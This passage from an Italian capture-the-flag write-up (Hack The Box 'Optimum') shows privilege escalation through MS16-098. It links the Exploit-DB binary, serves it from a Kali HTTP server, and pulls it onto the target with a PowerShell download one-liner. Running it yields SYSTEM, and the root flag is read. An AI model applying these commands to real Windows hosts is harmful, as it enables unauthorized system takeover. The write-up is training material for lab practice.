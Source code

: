 Notiamo una vulnerabiltà impoartante la MS16-098
https://www.exploit-db.com/exploits/41020

Scarichimo l'eseguibie all'indiizzo:
https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/41020.exe

A questo punto tiruamo su un server per poter accere al file.exe dalla macchina target
```
┌──(venv)─(root㉿kali)-[/home/kali/htb/optimun/Windows-Exploit-Suggester]
└─# python -m http.server 9001
Serving HTTP on 0.0.0.0 port 9001 (http://0.0.0.0:9001/) ...
```

Dalla macchina target scarichiamo il file.exe con il seguente comando 
```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.53:9001/41020.exe', 'c:\Users\Public\Downloads\41020.exe')"
```

Non ci reste che eseguire lo scipt

```cmd
C:\Users\Public\Downloads>41020.exe
41020.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\Public\Downloads>whoami
whoami
nt authority\system
```

Prendiamo la flag
```cmd
C:\Users\Administrator\Desktop>type root.txt
type root.txt
56208cfd88ec0236ea7f4cb5d5a8ef02
```

# LESSION LERNED

Aggiorna e correggi sempre il tuo software! Per ottenere sia un punto d'appoggio iniziale che aumentare i privilegi,
abbiamo sfruttato le vulnerabilità divulgate pubblicamente che dispongono di aggiornamenti 
e patch di sicurezza disponibili.


## [[Ambiente virtuale]]

Creare ambiente virutale all'interno di kali per scaricare dipendenze
• python3 -m venv venv 

Attivare l'ambiente
• source venv/bin/activate

Ora al suo interno possiamo scaricare quello che vogliamo senza compromettere la macchina virtuale

Per uscire dall'ambiente virutale 
• deactivate


